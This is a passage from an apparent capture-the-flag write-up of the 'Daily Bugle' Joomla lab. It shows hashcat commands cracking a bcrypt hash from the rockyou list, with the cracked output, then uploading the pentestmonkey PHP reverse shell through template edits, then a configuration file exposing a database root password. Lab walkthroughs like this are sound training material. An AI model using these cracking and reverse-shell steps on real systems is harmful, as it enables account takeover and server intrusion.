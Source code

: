 ```bash
sed -n '45000,50000p' &ltpath-to-rockyou> | hashcat -m3200 -a0 --force '&lthash>'
```

According to source:

"-   We use `sed` to extract lines 45000-50000 from the rockyou password list. These then get piped (`|`) into hashcat as possible passwords. We’re using those specific lines because I happen to know that the password is within that range, but I didn’t want to make it _too_ easy.
-   We use hashcat with `-m3200` to target a bcrypt hash, and `-a0` to specify a wordlist attack. `--force` is used to ignore warnings and break the hashes regardless. We then specify the hash to be broken — either from a file or, as in this case, from `stdin` between single quotes (`' '`). Usually at this point we would also specify a wordlist, but we’re using the output of the `sed` command this time."

- Standard **hashcat**:
```bash
hashcat -m3200 -a0 --force '<hash>' <path-to-rockyou>
```

SQLMap is taking a while and to no avail so far.

Can update files in `Extensions -> Templates -> Templates` using the username (jonah) and password retrieved:

```
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123
Session..........: hashcat
Status...........: Cracked
Hash.Name........: bcrypt $2*$, Blowfish (Unix)
Hash.Target......: $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p...BtZutm
Time.Started.....: Fri Jul 15 12:25:08 2022, (1 min, 52 secs)
Time.Estimated...: Fri Jul 15 12:27:00 2022, (0 secs)
Guess.Base.......: Pipe
Speed.#1.........:       16 H/s (7.64ms) @ Accel:1 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 1834
Rejected.........: 0
Restore.Point....: 0
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:896-1024
Candidates.#1....: spiderman123 -> spiderman123
Started: Fri Jul 15 12:24:27 2022
Stopped: Fri Jul 15 12:27:02 2022
```

We get a reverse shell and upload it: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

Create a php file then edit it with the shell.

We can find a weird `configuration.php` file in `/var/www/html`.

```bash
public $offline = '0';
	public $offline_message = 'This site is down for maintenance.<br />Please check back again soon.';
	public $display_offline_message = '1';
	public $offline_image = '';
	public $sitename = 'The Daily Bugle';
	public $editor = 'tinymce';
	public $captcha = '0';
	public $list_limit = '20';
	public $access = '1';
	public $debug = '0';
	public $debug_lang = '0';
	public $dbtype = 'mysqli';
	public $host = 'localhost';
	public $user = 'root';
	public $password = 'nv5uz9r3ZEDzVjNu';
```